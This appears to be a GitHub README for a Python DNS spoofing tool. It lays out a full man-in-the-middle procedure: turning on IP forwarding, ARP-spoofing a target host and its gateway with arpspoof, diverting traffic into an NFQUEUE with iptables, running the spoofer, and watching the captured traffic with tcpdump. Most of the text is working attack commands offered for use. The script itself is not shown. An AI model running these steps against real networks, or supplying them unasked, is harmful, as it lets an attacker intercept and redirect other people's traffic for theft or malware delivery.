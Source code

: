 DNS Spoofing is a program to spoof dns entries.  
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
usage - sudo python3 dnsspoof.py eth0  
  
Steps:  
    0. Update target website link and spoofing link in script.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
	To test in local system or same system  
           1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
           2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
        To test in other system, target system  
           1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. python3 dnsspoof.py eth0  
    5. To check if its working  
	1. tcpdump -i eth0 udp port 53  
	2. sudo iptables -L -v -n  
	3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
	4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
	1. iptables --flush  
	2. iptables -t nat -F  
  
Run the steps following them and we can spoof dns records.  
  
Requirements - install required libraries. For help, refer tools section
